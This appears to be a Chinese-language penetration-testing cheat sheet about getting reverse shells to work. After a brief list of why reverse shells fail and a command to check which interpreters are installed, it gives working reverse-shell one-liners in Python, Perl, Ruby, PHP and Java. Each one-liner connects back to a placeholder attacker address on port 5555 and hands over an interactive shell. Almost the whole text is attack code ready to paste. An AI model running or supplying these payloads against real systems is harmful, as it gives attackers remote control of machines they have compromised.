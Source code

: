 反弹 shell 失败，导致失败的因素很多，经验来看，常见如下几类：反弹命令不存在、禁止出口流量、限定向外访问端口、流量审查。

首先在linux上搜索这些语言是否安装

```
whereis nc bash python php exec
```

###### python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

###### perl

```perl
# 方法一
perl -e 'use Socket;$i="x.x.x.x";$p=5555;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# 方法二
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"x.x.x.x:5555");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

###### Ruby

```ruby
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("x.x.x.x","5555");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

###### PHP

system,exec,shell_exec,paassthru,popen,proc_popen

```php
php -r '$sock=fsockopen("x.x.x.x",5555);exec("/bin/bash -i <&3 >&3 2>&3");'
```

###### Java

```java
    public class Revs {
    /**
    * @param args
    * @throws Exception 
    */
    public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/x.x.x.x/5555;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```
